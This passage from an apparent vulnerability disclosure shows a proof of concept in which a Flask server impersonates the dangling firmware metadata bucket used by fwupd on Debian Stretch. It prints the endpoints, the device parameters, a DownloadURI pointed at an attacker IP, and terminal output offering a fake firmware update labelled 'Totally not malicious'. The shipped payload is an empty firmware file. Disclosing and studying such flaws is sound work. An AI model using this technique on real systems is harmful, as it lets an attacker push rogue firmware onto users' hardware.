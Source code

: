 
### Proof of Concept - Actually offering a firmware update

To offer a firmware update, we need to populate `firmware.xml.gz` with metadata entries that:

* Pertain to a hardware device UUID installed on the system
* Advertise a firmware version number greater than the version already installed on the device
* Provide a sane "UpdateProtocol" for the device
* Provide a URL of a `.cab` file and its corresponding cryptographic hash

To do so, two new endpoints were added to the Flask app to dynamically generate
the signed metadata and corresponding `.cab` file:

* `/poc/uuid/<UUID>/version/<VERSION>/updateprotocol/<UPDATE_PROTOCOL>/firmware.xml.gz`
  * Returns XML metadata that advertises a firmware for the given `UUID`, `VERSION` and `UPDATE_PROTOCOL` parameters
* `/poc/uuid/<UUID>/version/<VERSION>/updateprotocol/<UPDATE_PROTOCOL>/poc.cab`
  * Returns a `.cab` file containing an empty firmware file for the given `UUID`, `VERSION` and `UPDATE_PROTOCOL` parameters

On my machine, I found that I could publish an update for my "ThinkPad
Thunderbolt 3 Dock USB Audio" device using the following parameters:

* UUID: 0922fea5-b1c1-5072-bc18-e178bbedce1
* Version: 1.337 (Debian Stretch) or 13-37-00 (Debian Sid)
* Update Protocol: com.synaptics.cxaudio


#### POC: Debian Stretch (currently oldstable)

`fwupd` v0.7.4-2 is installed. By default it points at the dangling S3 bucket.

```
$ dpkg -l fwupd
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-=================================
ii  fwupd          0.7.4-2      amd64        Firmware update daemon
```

When we do a `refresh` we can see our malicious firmware update showing as available:

```
$ grep -P '^DownloadURI' /etc/fwupd.conf
DownloadURI=http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/1.337/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz

$ fwupdmgr refresh

$ fwupdmgr get-updates
ThinkPad Thunderbolt 3 Dock USB Audio has firmware updates:
ID:                      com.hacker.firmware
GUID:                    d66bf84b-c3ba-508c-bc55-0d445413d3d4
GUID:                    0922fea5-b1c1-5072-bc18-e178bbedce19
Update Version:          1.337
Update Checksum:         00c3342aeb4276b9b0c4fb7d853fd57aadb27cb8
Update Checksum Type:    sha1
Update Location:         http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/1.337/updateprotocol/com.synaptics.cxaudio/poc.cab
Update Description:      Totally not malicious ;)
```
